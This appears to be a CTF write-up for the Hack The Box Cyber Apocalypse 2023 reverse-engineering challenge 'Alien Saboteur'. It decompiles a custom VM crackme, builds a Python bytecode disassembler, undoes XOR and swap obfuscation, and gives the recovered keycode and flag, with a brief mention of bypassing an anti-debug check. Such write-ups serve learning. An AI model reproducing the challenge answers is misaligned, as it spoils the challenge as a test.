









# Writeup: Hack The Box Cyber Apocalypse 2023 - The Cursed Mission


The HackTheBox Cyber Apocalypse has become a staple annual event of the ComSec CTF calendar, though this year a couple 
of changed were introduced - such as the maximum team size and average difficulty of the challenges. This post
contains some challenges 



## rev: Alien Saboteur


Solved by Ben R, this was rated a medium difficulty challenge, and his personal favourite challenge in the CTF. 2 files
could be downloaded, and there was no remote element.

Running the program, it seems to be a classic 'find the password' style challenge.


```
└─$ ./vm bin
[Main Vessel Terminal]
< Enter keycode
>
```

### Understanding the VM

The two files were `vm` and `bin`. As the name suggests, the `bin` file was a binary blob, the `vm` file was an
ELF. The main function program showed the binary blob being read into memory, and is then passed
to the `vm_create()` function. 



Cleaning up the compilation as we go, we can see the `vm_create` function essentially allocates 2 areas of memory 
for the virtual machine, and an additional area for the vm metadata. I created a structure to represent the 
metadata structure, hopefully the members can be given better names as the reversing process continues.


A little reverse engineering tip here - when trying to clean out some nasty compilation due to a custom structure
or something, getting the size of the structure right is usually enough to **significantly** improve the readability. 


```c
struct vm_meta* vm_create(int64_t blob_ptr, int64_t vm_size)
    struct vm_meta* vm_ptrs = malloc(bytes: 168)
    vm_ptrs->field_0 = 0
    vm_ptrs->field_4.b = 0
    vm_ptrs->field_a0 = 0
    memset(&vm_ptrs->field_8, 0, 128)
    vm_ptrs->field_90 = calloc(n: 0x10000, elem_size: 1)
    memcpy(vm_ptrs->field_90, blob_ptr + 3, vm_size - 3)
    vm_ptrs->field_98 = calloc(n: 0x200, elem_size: 4)
    return vm_ptrs
```

With the virtual machine setup, `vm_run()` is called, one of the `vm_meta` structs members was identified
as a boolean to indicate when to stop stepping through the vm code.

```c 
bool vm_run(struct vm_meta* vm_ptrs)
    bool vm_running
    while (true)
        vm_running = vm_ptrs->is_running
        if (vm_running != 0)
            break
        vm_step(vm_ptrs)
    return vm_running
```

The `vm_step` function was the first that looked pretty nasty, using pointer math and offsets to extract data
out of the supplied argument and essentially use a crude method of dynamic dispatch to call the correct
function based on an offset to a global variable (highlighted red).



Cleaning that up, we can see that a byte of data is being read from an offset to the `vm_code` memory, and used to
indicate which function should be executed in the operations table.



The operations table points to all the operations that can be performed by the `vm`

```c 
struct operations_table
{
    void* vm_add;
    void* vm_addi;
    void* vm_sub;
    void* vm_subi;
    void* vm_mul;
    void* vm_muli;
    void* vm_div;
    void* vm_cmp;
    void* vm_jmp;
    void* vm_inv;
    void* vm_push;
    void* vm_pop;
    void* vm_mov;
    void* vm_nop;
    void* vm_exit;
    void* vm_print;
    void* vm_putc;
    void* vm_je;
    void* vm_jne;
    void* vm_jle;
    void* vm_jge;
    void* vm_xor;
    void* vm_store;
    void* vm_load;
    void* vm_input;
};
```

### Reversing the VM Program 

It could be pointless to now go and reverse engineer all the operations, some of them may never be used. Looking at
the `bin` file, we see the first three bytes are the file header, which don't get `memcpy`'d into the code segment,
and then an 0x10 byte which equates to the `vm_putc` function.

```hex 
└─$ xxd bin | head
00000000: 5577 5510 5b00 0000 0010 4d00 0000 0010  UwU.[.....M.....
00000010: 6100 0000 0010 6900 0000 0010 6e00 0000  a.....i.....n...
00000020: 0010 2000 0000 0010 5600 0000 0010 6500  .. .....V.....e.
00000030: 0000 0010 7300 0000 0010 7300 0000 0010  ....s.....s.....
00000040: 6500 0000 0010 6c00 0000 0010 2000 0000  e.....l..... ...
00000050: 0010 5400 0000 0010 6500 0000 0010 7200  ..T.....e.....r.
00000060: 0000 0010 6d00 0000 0010 6900 0000 0010  ....m.....i.....
00000070: 6e00 0000 0010 6100 0000 0010 6c00 0000  n.....a.....l...
00000080: 0010 5d00 0000 0010 0a00 0000 0010 3c00  ..]...........<.
00000090: 0000 0010 2000 0000 0010 4500 0000 0010  .... .....E.....
```

This function clearly shows that `putc` takes one argument, which is a 8-bit integer stored in the byte
directly following the instruction. 



The penultimate statement in the function, where the instruction pointer
is incremented by 6, hints that **all** instructions in this custom vm are 6 in total.

```c 
struct vm_meta* vm_putc(struct vm_meta* vm_ptrs)
    putchar(c: zx.d(u8(zx.q(vm_ptrs->instruction_counter) + 1 + vm_ptrs->code_section)))
    vm_ptrs->instruction_counter = vm_ptrs->instruction_counter + 6
    return vm_ptrs
```

Time to write some code to disassemble the binary blob.

```python
from pwn import *

file_data = b""
instruction_counter = 0x0

def interpret_putc():
    global file_data
    print(f"{hex(instruction_counter)}: putc('{chr(file_data[1])}')")

def interpret_mov():
    global file_data
    imm = file_data[1]
    addr = u32(file_data[2:4] + b"\x00\x00")
    print(f"{hex(instruction_counter)}: MOV {hex(imm)} = {hex(addr)}")

def interpret_input():
    global file_data
    addr = u32(file_data[1:3] + b"\x00\x00")
    print(f"{hex(instruction_counter)}: INPUT: {hex(addr)}")

def interpret_store():
    global file_data
    dest = file_data[1]
    src = file_data[2]
    print(f"{hex(instruction_counter)}: STORE {hex(src)} -> {hex(dest)}")
    # print(f"STORE {hex(src)} = {hex(dest)}")

def interpret_add():
    global file_data
    a1 = file_data[1]
    a2 = file_data[2]
    a3 = file_data[3]
    print(f"{hex(instruction_counter)}: ADD {hex(a1)} = {hex(a2)} + {hex(a3)}")

def interpret_jle():
    global file_data
    cmp1 = file_data[1]
    cmp2 = file_data[2]
    jmp_addr = u16(file_data[3:5])
    print(f"{hex(instruction_counter)}: JLE {hex(jmp_addr)} IF {hex(cmp1)} > {hex(cmp2)}  ")

def interpret_load():
    global file_data
    src = file_data[1]
    dest = file_data[2]
    print(f"{hex(instruction_counter)}: LOAD {hex(src)} <- {hex(dest)}")

def interpret_xor():
    global file_data
    dest = file_data[1]
    xor1 = file_data[2]
    xor2 = file_data[3]
    print(f"{hex(instruction_counter)}: XOR {hex(dest)} = {hex(xor1)} ^ {hex(xor2)}")

def interpret_je():
    global file_data
    cmp1 = file_data[1]
    cmp2 = file_data[2]
    jmp_addr = u16(file_data[3:5])
    print(f"{hex(instruction_counter)}: JE {hex(jmp_addr)} IF {hex(cmp1)} == {hex(cmp2)}")

def interpret_exit():
    global file_data
    print("{hex(instruction_counter)}: VM EXIT")

def interpret_push():
    global file_data
    data = file_data[1]
    print(f"{hex(instruction_counter)}: PUSH {hex(data)}")


def interpret_inv():
    global file_data
    data1 = file_data[1]
    data2 = file_data[2]
    print(f"{hex(instruction_counter)}: INV {hex(data1)}, {hex(data2)}")

def interpret_multi():
    global file_data
    dest = file_data[1]
    arg1 = file_data[2]
    arg2 = file_data[3]
    print(f"{hex(instruction_counter)}: MULTI {hex(dest)} = {hex(arg1)} * {hex(arg2)}")

def interpret_instruction():
    global file_data, instruction_counter
    opcode = file_data[0]
    match opcode:
        case 5:
            interpret_multi()
        case 0x1:
            interpret_add()
        case 0x10:
            interpret_putc()
        case 0x11:
            interpret_je()
        case 0x13:
            interpret_jle()
        case 0x9:
            interpret_inv()
        case 0xa:
            interpret_push()
        case 0xc:
            interpret_mov()
        case 0xe:
            interpret_exit()
        case 0x15:
            interpret_xor()
        case 0x16:
            interpret_store()
        case 0x17:
            interpret_load()
        case 0x18:
            interpret_input()
        case _:
            print("NOT IMPLEMENTED")
            exit()

    file_data = file_data[6:]
    instruction_counter += 1

def main():
    global file_data
    with open("bin", "rb") as f:
        file_data = f.read()[3:]
        while file_data[0] != 0x19:
            interpret_instruction()


if __name__ == "__main__":
    main()
```

This produced the following output, which seems correct as the characters supplied to `putc` match
the string printed when the program is run.

```hex
└─$ python3 disassemble_vm.py
0x0: putc('[')
0x1: putc('M')
0x2: putc('a')
0x3: putc('i')
0x4: putc('n')
0x5: putc(' ')
0x6: putc('V')
0x7: putc('e')
0x8: putc('s')
0x9: putc('s')
0xa: putc('e')
0xb: putc('l')
0xc: putc(' ')
0xd: putc('T')
0xe: putc('e')
0xf: putc('r')
0x10: putc('m')
0x11: putc('i')
0x12: putc('n')
0x13: putc('a')
0x14: putc('l')
0x15: putc(']')
0x16: putc('
')
0x17: putc('<')
0x18: putc(' ')
0x19: putc('E')
0x1a: putc('n')
0x1b: putc('t')
0x1c: putc('e')
0x1d: putc('r')
0x1e: putc(' ')
0x1f: putc('k')
0x20: putc('e')
0x21: putc('y')
0x22: putc('c')
0x23: putc('o')
0x24: putc('d')
0x25: putc('e')
0x26: putc(' ')
0x27: putc('
')
0x28: putc('>')
0x29: putc(' ')
0x2a: MOV 0x1e = 0xfa0
0x2b: MOV 0x1c = 0x0
0x2c: MOV 0x1d = 0x11
0x2d: INPUT: 0x19
0x2e: STORE 0x19 -> 0x1e
0x2f: ADD 0x1e = 0x1e + 0x1
0x30: ADD 0x1c = 0x1c + 0x1
0x31: JLE 0x2d IF 0x1c > 0x1d
0x32: MOV 0x1e = 0x1004
0x33: MOV 0x1f = 0xfa0
0x34: MOV 0x1c = 0x0
0x35: MOV 0x1d = 0xa
0x36: MOV 0x1b = 0xa9
0x37: MOV 0x17 = 0x0
0x38: LOAD 0x19 <- 0x1e
0x39: LOAD 0x18 <- 0x1f
0x3a: XOR 0x19 = 0x19 ^ 0x1b
0x3b: JE 0x4e IF 0x19 == 0x18
0x3c: putc('U')
0x3d: putc('n')
0x3e: putc('k')
0x3f: putc('n')
0x40: putc('o')
0x41: putc('w')
0x42: putc('n')
0x43: putc(' ')
0x44: putc('k')
0x45: putc('e')
0x46: putc('y')
0x47: putc('c')
0x48: putc('o')
0x49: putc('d')
0x4a: putc('e')
0x4b: putc('!')
0x4c: putc('
')
0x4d: VM EXIT
0x4e: ADD 0x1e = 0x1e + 0x1
0x4f: ADD 0x1f = 0x1f + 0x1
0x50: ADD 0x1c = 0x1c + 0x1
0x51: JLE 0x38 IF 0x1c > 0x1d
0x52: MOV 0xf = 0x0
0x53: PUSH 0xf
0x54: PUSH 0xf
0x55: PUSH 0xf
0x56: INV 0x65, 0x3
0x57: MOV 0x10 = 0x0
0x58: JE 0x6c IF 0x1f == 0x10
0x59: putc('T')
0x5a: putc('e')
0x5b: putc('r')
0x5c: putc('m')
0x5d: putc('i')
0x5e: putc('n')
0x5f: putc('a')
0x60: putc('l')
0x61: putc(' ')
0x62: putc('b')
0x63: putc('l')
0x64: putc('o')
0x65: putc('c')
0x66: putc('k')
0x67: putc('e')
0x68: putc('d')
0x69: putc('!')
0x6a: putc('
')
{hex(instruction_counter)}: VM EXIT
0x6c: MOV 0x1e = 0x77
0x6d: MULTI 0x1e = 0x1e * 0x6
0x6e: MOV 0x1c = 0x0
0x6f: MOV 0x1d = 0x5dc
0x70: MOV 0x1b = 0x45
0x71: LOAD 0x19 <- 0x1e
0x72: XOR 0x19 = 0x19 ^ 0x1b
0x73: STORE 0x19 -> 0x1e
0x74: ADD 0x1e = 0x1e + 0x1
0x75: ADD 0x1c = 0x1c + 0x1
0x76: JLE 0x71 IF 0x1c > 0x1d
NOT IMPLEMENTED
```

### Getting the First Password

The first interesting part of the assembly, in terms of progression, is just after `putc`. The program take some 
user input, 1 byte at a time, for 18 bytes. After that, it iterates through
memory, `xor`ing each byte with `0xa9`, and comparing the result to the user input, character
by character. If the input doesn't match, the program prints an error "unknown keycode" and exits,
else it continues through the loop until every byte has been checked.


```hex
0x2a: MOV 0x1e = 0xfa0
0x2b: MOV 0x1c = 0x0
0x2c: MOV 0x1d = 0x11
0x2d: INPUT: 0x19
0x2e: STORE 0x19 -> 0x1e
0x2f: ADD 0x1e = 0x1e + 0x1
0x30: ADD 0x1c = 0x1c + 0x1
0x31: JLE 0x2d IF 0x1c > 0x1d
0x32: MOV 0x1e = 0x1004
0x33: MOV 0x1f = 0xfa0
0x34: MOV 0x1c = 0x0
0x35: MOV 0x1d = 0xa
0x36: MOV 0x1b = 0xa9
0x37: MOV 0x17 = 0x0
0x38: LOAD 0x19 <- 0x1e
0x39: LOAD 0x18 <- 0x1f
0x3a: XOR 0x19 = 0x19 ^ 0x1b
0x3b: JE 0x4e IF 0x19 == 0x18
0x3c: putc('U')
0x3d: putc('n')
0x3e: putc('k')
0x3f: putc('n')
0x40: putc('o')
0x41: putc('w')
0x42: putc('n')
0x43: putc(' ')
0x44: putc('k')
0x45: putc('e')
0x46: putc('y')
0x47: putc('c')
0x48: putc('o')
0x49: putc('d')
0x4a: putc('e')
0x4b: putc('!')
0x4c: putc('
')
0x4d: VM EXIT
0x4e: ADD 0x1e = 0x1e + 0x1
0x4f: ADD 0x1f = 0x1f + 0x1
0x50: ADD 0x1c = 0x1c + 0x1
0x51: JLE 0x38 IF 0x1c > 0x1d
```

From the disassembly, we can see the user input is at `0xfa0` (4000), the 
encoded string is at 0x1004 (4100), and the encoded string is `xor`'d
with the constant value `0xa9` (169).

So we can manually pull that data out and do the xor, since xor is reversible we will 
get a string that, when inputted, will pass the character checks. 

```python
In [1]: code = ""
   ...: with open("bin", "rb") as f:
   ...:     encoded_string = f.read()[0x1004 + 3:0x1004+ 3 + 11]
   ...: for char in encoded_string:
   ...:     code += chr(char ^ 0xa9)
   ...: code
Out[1]: 'c0d3_r3d_5h'
```

I think this was actually meant to be a comparison of the full 17 expected
bytes, which would have given the string `c0d3_r3d_5hutd0wn`, but `c0d3_r3d_5h`
actually works fine, by just appending random characters to the end.




The next chunk of assembly basically does a sort of "am I being debugged" check. The program exits
if it detects this.

```hex
0x4e: ADD 0x1e = 0x1e + 0x1
0x4f: ADD 0x1f = 0x1f + 0x1
0x50: ADD 0x1c = 0x1c + 0x1
0x51: JLE 0x38 IF 0x1c > 0x1d
0x52: MOV 0xf = 0x0
0x53: PUSH 0xf
0x54: PUSH 0xf
0x55: PUSH 0xf
0x56: INV 0x65, 0x3
0x57: MOV 0x10 = 0x0
0x58: JE 0x6c IF 0x1f == 0x10
0x59: putc('T')
0x5a: putc('e')
0x5b: putc('r')
0x5c: putc('m')
0x5d: putc('i')
0x5e: putc('n')
0x5f: putc('a')
0x60: putc('l')
0x61: putc(' ')
0x62: putc('b')
0x63: putc('l')
0x64: putc('o')
0x65: putc('c')
0x66: putc('k')
0x67: putc('e')
0x68: putc('d')
0x69: putc('!')
0x6a: putc('
')
```

This can be overcome simply by patching out the syscall
instruction - though we don't need to do that as we're solving the challenge entirely statically.

### Unravelling more Code

The program now prompts for a 'secret phrase'. Strange thing here is that there is only slightly more code remaining
from our assembly dump, and it doesn't include printing the prompt...

```hex
0x6c: MOV 0x1e = 0x77
0x6d: MULTI 0x1e = 0x1e * 0x6
0x6e: MOV 0x1c = 0x0
0x6f: MOV 0x1d = 0x5dc
0x70: MOV 0x1b = 0x45
0x71: LOAD 0x19 <- 0x1e
0x72: XOR 0x19 = 0x19 ^ 0x1b
0x73: STORE 0x19 -> 0x1e
0x74: ADD 0x1e = 0x1e + 0x1
0x75: ADD 0x1c = 0x1c + 0x1
0x76: JLE 0x71 IF 0x1c > 0x1d
```

This is because parts of the program have been scrambled as well, using `xor`. So, starting from 0x77 (the next instruction after
the `JLE`), the program will `xor` 1500 bytes of data with the constant value `0x45`. We can reverse this operation too.

```python
In [10]: code = bytearray(b"UwU")
    ...: with open("bin", "rb") as f:
    ...:     encoded_string = f.read()[0x77 + 3:0x77+ 3 + 1500]
    ...: for char in encoded_string:
    ...:     code.append(char ^ 0x45)
    ...: with open("part2_bin", "wb") as f:
    ...:     f.write(code)
```

Also needed to update the disassembling script here, to handle some additional operations 
and also add functionality for the user to specify a file to disassemble.

```python
from pwn import *
import sys

file_data = b""
instruction_counter = int(sys.argv[2], 16)

def interpret_putc():
    global file_data
    print(f"{hex(instruction_counter)}: putc('{chr(file_data[1])}')")

def interpret_mov():
    global file_data
    imm = file_data[1]
    addr = u32(file_data[2:4] + b"\x00\x00")
    print(f"{hex(instruction_counter)}: MOV {hex(imm)} = {hex(addr)}")

def interpret_input():
    global file_data
    addr = u32(file_data[1:3] + b"\x00\x00")
    print(f"{hex(instruction_counter)}: INPUT: {hex(addr)}")

def interpret_store():
    global file_data
    dest = file_data[1]
    src = file_data[2]
    print(f"{hex(instruction_counter)}: STORE {hex(src)} -> {hex(dest)}")

def interpret_add():
    global file_data
    a1 = file_data[1]
    a2 = file_data[2]
    a3 = file_data[3]
    print(f"{hex(instruction_counter)}: ADD {hex(a1)} = {hex(a2)} + {hex(a3)}")

def interpret_jle():
    global file_data
    cmp1 = file_data[1]
    cmp2 = file_data[2]
    jmp_addr = u16(file_data[3:5])
    print(f"{hex(instruction_counter)}: JLE {hex(jmp_addr)} IF {hex(cmp1)} > {hex(cmp2)}  ")

def interpret_load():
    global file_data
    src = file_data[1]
    dest = file_data[2]
    print(f"{hex(instruction_counter)}: LOAD {hex(src)} <- {hex(dest)}")

def interpret_xor():
    global file_data
    dest = file_data[1]
    xor1 = file_data[2]
    xor2 = file_data[3]
    print(f"{hex(instruction_counter)}: XOR {hex(dest)} = {hex(xor1)} ^ {hex(xor2)}")

def interpret_je():
    global file_data
    cmp1 = file_data[1]
    cmp2 = file_data[2]
    jmp_addr = u16(file_data[3:5])
    print(f"{hex(instruction_counter)}: JE {hex(jmp_addr)} IF {hex(cmp1)} == {hex(cmp2)}")

def interpret_exit():
    global file_data
    print(f"{hex(instruction_counter)}: VM EXIT")

def interpret_push():
    global file_data
    data = file_data[1]
    print(f"{hex(instruction_counter)}: PUSH {hex(data)}")

def interpret_pop():
    global file_data
    data = file_data[1]
    print(f"{hex(instruction_counter)}: POP {hex(data)}")

def interpret_add():
    global file_data
    arg1 = file_data[1]
    arg2 = file_data[2]
    arg3 = file_data[3]
    print(f"{hex(instruction_counter)}: ADD: {hex(arg1)} = {hex(arg2)} + {hex(arg3)}")


def interpret_inv():
    global file_data
    data1 = file_data[1]
    data2 = file_data[2]
    print(f"{hex(instruction_counter)}: INV {hex(data1)}, {hex(data2)}")

def interpret_multi():
    global file_data
    dest = file_data[1]
    arg1 = file_data[2]
    arg2 = file_data[3]
    print(f"{hex(instruction_counter)}: MULTI {hex(dest)} = {hex(arg1)} * {hex(arg2)}")

def interpret_instruction():
    global file_data, instruction_counter
    opcode = file_data[0]
    match opcode:
        case 0:
            interpret_add()
        case 5:
            interpret_multi()
        case 0x1:
            interpret_add()
        case 0xb:
            interpret_pop()
        case 0x10:
            interpret_putc()
        case 0x11:
            interpret_je()
        case 0x13:
            interpret_jle()
        case 0x9:
            interpret_inv()
        case 0xa:
            interpret_push()
        case 0xc:
            interpret_mov()
        case 0xe:
            interpret_exit()
        case 0x15:
            interpret_xor()
        case 0x16:
            interpret_store()
        case 0x17:
            interpret_load()
        case 0x18:
            interpret_input()
        case _:
            print("NOT IMPLEMENTED")
            exit()

    file_data = file_data[6:]
    instruction_counter += 1


def main():
    global file_data
    with open(sys.argv[1], "rb") as f:
        file_data = f.read()[3:]

        while file_data[0] != 0x19:
            interpret_instruction()


if __name__ == "__main__":
    main()
```

And dump out the disassembly of the new blob -- it worked!

```hex
0x77: putc('<')
0x78: putc(' ')
0x79: putc('E')
0x7a: putc('n')
0x7b: putc('t')
0x7c: putc('e')
0x7d: putc('r')
0x7e: putc(' ')
0x7f: putc('s')
0x80: putc('e')
0x81: putc('c')
0x82: putc('r')
0x83: putc('e')
0x84: putc('t')
0x85: putc(' ')
0x86: putc('p')
0x87: putc('h')
0x88: putc('r')
0x89: putc('a')
0x8a: putc('s')
0x8b: putc('e')
0x8c: putc('
')
0x8d: putc('>')
0x8e: putc(' ')
0x8f: MOV 0x1e = 0x1130
0x90: MOV 0x1c = 0x0
0x91: MOV 0x1d = 0x24
0x92: INPUT: 0x19
0x93: STORE 0x19 -> 0x1e
0x94: ADD: 0x1e = 0x1e + 0x1
0x95: ADD: 0x1c = 0x1c + 0x1
0x96: JLE 0x92 IF 0x1c > 0x1d
0x97: MOV 0x1c = 0x0
0x98: MOV 0x1d = 0x23
0x99: MOV 0x1e = 0x1130
0x9a: MOV 0x1f = 0x1194
0x9b: MOV 0x1a = 0x0
0x9c: MOV 0x1b = 0x23
0x9d: LOAD 0x14 <- 0x1e
0x9e: LOAD 0x15 <- 0x1f
0x9f: PUSH 0x14
0xa0: POP 0x13
0xa1: MOV 0x12 = 0x1130
0xa2: ADD: 0x12 = 0x12 + 0x15
0xa3: LOAD 0x11 <- 0x12
0xa4: STORE 0x11 -> 0x1e
0xa5: STORE 0x13 -> 0x12
0xa6: ADD: 0x1a = 0x1a + 0x1
0xa7: ADD: 0x1e = 0x1e + 0x1
0xa8: ADD: 0x1f = 0x1f + 0x1
0xa9: JLE 0x9d IF 0x1a > 0x1b
0xaa: MOV 0x1e = 0x1130
0xab: MOV 0x1f = 0x11f8
0xac: MOV 0x1a = 0x0
0xad: MOV 0x1b = 0x23
0xae: LOAD 0x14 <- 0x1e
0xaf: PUSH 0x1f
0xb0: POP 0xf
0xb1: ADD: 0xf = 0xf + 0x1c
0xb2: LOAD 0x10 <- 0xf
0xb3: XOR 0x14 = 0x14 ^ 0x10
0xb4: STORE 0x14 -> 0x1e
0xb5: ADD: 0x1a = 0x1a + 0x1
0xb6: ADD: 0x1e = 0x1e + 0x1
0xb7: JLE 0xae IF 0x1a > 0x1b
0xb8: ADD: 0x1c = 0x1c + 0x1
0xb9: JLE 0x99 IF 0x1c > 0x1d
0xba: MOV 0x1e = 0x1130
0xbb: MOV 0x1f = 0x125c
0xbc: MOV 0x1a = 0x0
0xbd: MOV 0x1b = 0x23
0xbe: LOAD 0xf <- 0x1e
0xbf: LOAD 0x10 <- 0x1f
0xc0: JE 0xc9 IF 0xf == 0x10
0xc1: putc('W')
0xc2: putc('r')
0xc3: putc('o')
0xc4: putc('n')
0xc5: putc('g')
0xc6: putc('!')
0xc7: putc('
')
0xc8: VM EXIT
0xc9: ADD: 0x1a = 0x1a + 0x1
0xca: ADD: 0x1e = 0x1e + 0x1
0xcb: ADD: 0x1f = 0x1f + 0x1
0xcc: JLE 0xbe IF 0x1a > 0x1b
0xcd: putc('A')
0xce: putc('c')
0xcf: putc('c')
0xd0: putc('e')
0xd1: putc('s')
0xd2: putc('s')
0xd3: putc(' ')
0xd4: putc('g')
0xd5: putc('r')
0xd6: putc('a')
0xd7: putc('n')
0xd8: putc('t')
0xd9: putc('e')
0xda: putc('d')
0xdb: putc(',')
0xdc: putc(' ')
0xdd: putc('s')
0xde: putc('h')
0xdf: putc('u')
0xe0: putc('t')
0xe1: putc('t')
0xe2: putc('i')
0xe3: putc('n')
0xe4: putc('g')
0xe5: putc(' ')
0xe6: putc('d')
0xe7: putc('o')
0xe8: putc('w')
0xe9: putc('n')
0xea: putc('!')
0xeb: putc('
')
0xec: VM EXIT
```

### Finding the Flag

What's happening here, is that user input is entered and then undergoes 
two mangling operations, it looks complicated but its essentially a loop
with two inner loops.

1. Swap the character with a position defined in a swap table at 0x1130 (4500)
2. Mangle the input with an `xor` operation, the value of which is an xor table at 0x11f8 (4600)

Once the mangling has taken place, the mangled input is compared with 35 bytes starting
from address 0x125c (4700). So we need to extract the following from the binary blob:

1. The swap table, 36 bytes starting at 0x1130
2. The xor table, 36 bytes starting at 0x11f8
3. The comparison string, 36 bytes starting at 0x125c

After extracting the swap table, xor table, and the comparison string, we can reverse the
mangling and get the expected input. Obviously as we're doing the inverse operation, we need to xor and then swap
rather than swap and then xor.

```python
In [104]: with open("bin", "rb") as f:
     ...:     data = f.read()[3:]
     ...:     flag = bytearray(data[4700:4700+36])
     ...:     xor_table = bytearray(data[4600:4600+36])
     ...:     swap_table = bytearray(data[4500:4500+36])
     ...:
     ...: for i in range(35,-1,-1):
     ...:     for j in range(36):
     ...:         flag[j] = flag[j] ^ xor_table[i]
     ...:
     ...:     for j in range(35,-1,-1):
     ...:         tmp = flag[swap_table[j]]
     ...:         flag[swap_table[j]] = flag[j]
     ...:         flag[j] = tmp
     ...: flag.decode()
Out[104]: 'HTB{5w1rl_4r0und_7h3_4l13n_l4ngu4g3}'
```

We got the flag!

> HTB{5w1rl_4r0und_7h3_4l13n_l4ngu4g3}

## pwn: Control Room


